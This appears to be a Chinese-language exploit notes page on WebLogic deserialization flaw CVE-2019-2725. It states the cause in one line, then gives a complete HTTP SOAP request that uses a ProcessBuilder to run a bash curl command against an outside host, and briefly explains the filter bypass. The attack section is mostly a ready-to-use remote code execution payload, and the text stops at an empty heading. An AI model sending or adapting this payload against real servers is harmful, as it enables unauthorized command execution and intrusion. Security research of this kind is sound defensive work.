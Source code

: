限制了object、new、method且viod只能使用index属性,array的class属性只能为byte


#### cve-2019-2725
##### 漏洞原因
未限制class
##### poc

> weblogic12

```
POST /wls-wsat/CoordinatorPortType11;/../x HTTP/1.1
Content-Type: text/xml
SOAPAction: ""
Content-Length: 824
Host: 192.168.132.131
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <class><string>org.slf4j.ext.EventData</string><void><string>
<![CDATA[
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>curl http://192.168.132.1/ReadMe.txt</string>
</void>
</array>
<void method="start"/></void>
]]>
</string></void></class>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
原理，未限制的使用class，可以生成java实例，EventData构造函数中存在2次反序列化操作。使用class绕过限制，并将函数调用等攻击语句放入string中，绕过检测

>  weblogic10

使用UnitOfWorkChangeSet类进行2次反序列化，传入参数为byte[]，且array可使用byte

>  通用
